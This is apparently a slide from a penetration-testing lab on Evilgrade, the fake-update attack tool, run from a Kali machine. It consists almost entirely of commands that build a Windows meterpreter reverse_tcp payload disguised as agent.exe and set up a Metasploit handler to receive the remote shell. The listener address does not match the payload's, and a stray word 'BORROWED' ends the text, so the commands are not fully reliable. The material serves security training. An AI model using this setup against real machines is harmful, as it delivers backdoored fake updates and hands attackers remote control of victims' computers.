

# Installation - Evilgrade
In Kali (192.168.248.134) in a new terminal:
# cd /usr/share/isr-evilgrade/agent/
# msfvenom -p windows/meterpreter/reverse_tcp  LHOST=192.168.248.134 LPORT=8080 -f exe --platform  windows	> agent.exe
# service postgresql start
#	msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload  windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 8080
msf exploit(handler) > set LHOST 192.168.248.132
msf exploit(handler) > exploit

BORROWED